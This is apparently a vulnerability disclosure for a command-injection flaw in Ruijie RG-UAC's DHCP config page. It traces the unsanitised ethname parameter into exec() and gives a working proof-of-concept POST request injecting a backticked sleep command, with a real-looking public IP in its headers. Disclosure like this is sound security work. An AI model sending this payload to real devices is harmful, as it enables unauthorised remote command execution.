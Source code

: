 Ruijie Network is a professional network manufacturer with a full range of network equipment products and solutions including switches, routers, software, security firewalls, wireless products, storage, etc.

There is a command execution vulnerability in Ruijie RG-UAC. Attackers exploit vulnerabilities to compromise servers.

official：https://www.ruijie.com.cn

version:full version

url:/view/dhcp/dhcpConfig/commit.php

The key code has been marked, as shown in the figure. When the controllable value of the action variable is add, then request the ethname parameter. Bringing it into the get_ip_addr_details function, the tracing function will directly bring the ethname parameter into the exec function to execute the command without any verification, thus causing the rce vulnerability to occur.
<img width="587" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/1a632e35-1471-4864-b754-217e735fc40c">
<img width="591" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/a4a0ecb4-a656-4a96-8ae8-24fc69804992">
poc：
```
POST /view/dhcp/dhcpConfig/commit.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://59.49.169.195:81
Connection: close
Cookie: sizeSouth=180; PHPSESSID=06c246bc5a619a5971fa8df581362a02
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1

action=add&ethname=`sleep${IFS}10`
```
<img width="603" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/f94d66f4-0623-4ba0-b3e7-4e41c637c119">
